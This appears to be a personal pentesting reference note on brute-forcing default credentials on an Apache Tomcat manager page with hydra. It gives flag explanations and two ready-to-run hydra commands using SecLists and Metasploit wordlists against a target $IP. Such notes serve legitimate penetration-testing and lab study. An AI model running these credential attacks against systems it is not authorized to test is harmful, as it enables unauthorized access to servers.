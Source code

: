 # brute force default credentials tomcat
colon separated: /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-s PORT   if the service is on a different default port, define it here
```bash
hydra -s 8080 -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```

try more than just the default colon separated default creds from seclists.
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://$IP/manager/html
```

# References
- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- [20221003150803](/zet/20221003150803/README.md) brute force default credentials tomcat wfuzz
- [20221003150802](/zet/20221003150802/README.md) brute force default credentials tomcat metasploit
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:
    #assorted #command #hacking #hydra
